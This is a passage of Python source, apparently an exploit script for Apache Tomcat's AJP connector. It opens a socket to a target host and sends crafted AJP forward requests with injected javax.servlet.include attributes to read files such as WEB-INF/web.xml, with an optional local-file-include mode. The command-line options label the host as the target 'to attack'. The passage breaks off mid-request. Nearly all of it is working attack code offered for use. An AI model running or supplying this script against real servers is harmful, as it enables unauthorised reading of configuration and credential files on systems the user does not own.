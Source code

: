 ```python
        'Accept-Language': 'en-US,en;q=0.5',
        'Upgrade-Insecure-Requests': '1',
        'Cache-Control': 'max-age=0'
    }
    fr.is_ssl = False
    fr.attributes = []
    return fr


class Tomcat(object):
    def __init__(self, target_host, target_port):
        self.target_host = target_host
        self.target_port = target_port

        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.socket.connect((target_host, target_port))
        self.stream = self.socket.makefile("rb", bufsize=0)

    def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[], lfi=False):
        if lfi:
            self.req_uri = req_uri + '.jspx'
        else:
            self.req_uri = req_uri
        self.forward_request = prepare_ajp_forward_request(
            self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))
        print("Getting resource at ajp13://%s:%d%s" %
              (self.target_host, self.target_port, req_uri))
        if user is not None and password is not None:
            self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + (
                "%s:%s" % (user, password)).encode('base64').replace('\n', '')
        for h in headers:
            self.forward_request.request_headers[h] = headers[h]
        for a in attributes:
            self.forward_request.attributes.append(a)
        responses = self.forward_request.send_and_receive(
            self.socket, self.stream)
        if len(responses) == 0:
            return None, None
        snd_hdrs_res = responses[0]
        data_res = responses[1:-1]
        if len(data_res) == 0:
            print("No data in response. Headers:%s\n" %
                  snd_hdrs_res.response_headers)
        return snd_hdrs_res, data_res


parser = argparse.ArgumentParser()
parser.add_argument("target", type=str, help="Hostname or IP to attack")
parser.add_argument('-p', '--port', type=int, default=8009,
                    help="AJP port to attack (default is 8009)")
parser.add_argument('-w', '--webapp', type=str, default='ROOT',
                    help="Which webapp to attack (default is ROOT")
parser.add_argument('-f', '--file', type=str,
                    default='WEB-INF/web.xml', help="file path :(WEB-INF/web.xml)")
parser.add_argument('-l', '--lfi', action="store_true",
                    help="local file include")
args = parser.parse_args()
t = Tomcat(args.target, args.port)
_, data = t.perform_request('/'+args.webapp+'/', attributes=[
    {'name': 'req_attribute', 'value': [
        'javax.servlet.include.request_uri', '/']},
```